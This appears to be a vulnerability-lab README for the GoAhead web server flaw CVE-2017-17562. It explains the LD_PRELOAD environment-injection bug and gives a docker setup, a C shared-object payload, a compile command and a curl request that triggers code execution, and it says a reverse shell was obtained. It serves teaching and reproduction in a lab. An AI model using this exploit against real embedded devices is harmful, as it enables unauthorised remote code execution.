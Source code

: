 # GoAhead Web Server Environment Variables Injection and `LD_PRELOAD` Remote Code Execution (CVE-2017-17562)

[中文版本(Chinese version)](README.zh-cn.md)

Embedthis GoAhead is the world's most popular, tiny embedded web server, which is deployed in hundreds of millions of devices and is ideal for the smallest of embedded devices.

GoAhead before 3.6.5 allows remote code execution if CGI is enabled and a CGI program is dynamically linked. This is a result of initializing the environment of forked CGI scripts using untrusted HTTP request parameters in the cgiHandler function in `cgi.c`. When combined with the glibc dynamic linker, this behaviour can be abused for remote code execution using special parameter names such as `LD_PRELOAD`. An attacker can POST their shared object payload in the body of the request, and reference it using /proc/self/fd/0.

References:

 - https://www.elttam.com.au/blog/goahead/
 - https://www.exploit-db.com/exploits/43360
 - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/goahead_ldpreload.rb

## Vulnerable environment

Execute following commands to start a GoAhead 3.6.4:

```
docker compose up -d
```

Then, you can see the welcome page at `http://your-ip:8080`, CGI scripts is available at `http://your-ip:8080/cgi-bin/index`.

## Exploit

First of all, compile this hijack code to a dynamic shared library:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

> Please notice that, since GoAhead is a compact embedded webserver running on almost any possible IoT device, the format of dynamic shared library is always depending on the target server architecture. In the real world, compiling exploits is not as easy as this manual suggests, although Vulhub could show you a simplest example.

Compile on a x86/64 environment:

```
gcc -shared -fPIC ./payload.c -o payload.so
```

Use curl to trigger the attack:

```
curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

The response header `Hello: world!` is printed to indicate that the code has been executed:

![](1.png)

A reverse shell is got:

![](2.png)
